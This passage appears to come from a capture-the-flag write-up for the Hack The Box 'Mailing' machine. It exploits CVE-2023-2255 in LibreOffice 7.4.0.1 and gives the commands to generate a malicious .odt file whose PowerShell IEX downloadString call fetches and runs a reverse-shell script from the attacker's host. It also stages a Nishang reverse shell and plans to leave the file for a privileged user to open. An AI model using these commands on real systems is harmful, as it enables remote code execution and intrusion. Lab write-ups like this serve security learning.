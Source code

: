 Version `7.4.0.1` is vulnerable as indicated by [CVE-2023-2255](https://nvd.nist.gov/vuln/detail/CVE-2023-2255)

In short, the vulnerability is related to how LibreOffice handles "Floating Frames," which function similarly to HTML `Iframe` element. These frames are used to display linked content within a document

In the affected versions of LibreOffice, these floating frames would automatically load and dispaly linked documents **without asking for user permission**

There's a git repo we can use to generate our payload. The python script in this repo will generate a malicious `odt` file (LibreOffice's format) that includes a command to be executed when opened

![Git Repo](/assets/images/HTB%20-%20Mailing/Git%20Repo.png)

First, let's grab the repo on our attacker machine

```bash
git clone https://github.com/elweth-sec/CVE-2023-2255.git
```

We'll generate the reverse shell payload

```bash
python3 CVE-2023-2255.py --cmd "cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36:8000/shell.ps1')" --output exploit.odt
```

The important part about this exploit is that it relies on someone opening the `.odt` file with LibreOffice. First we need to host our `shell.ps1` script that will be obtained once this code executes

```bash
cp /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 shell.ps1
```

This will copy the powershell reverse shell script that we will be hosting to our current directory and name it shell.. ***We also need to edit the script to include our IP / port***

Next we must put the file somewhere where someone with higher privileges than we currently have will likely open it
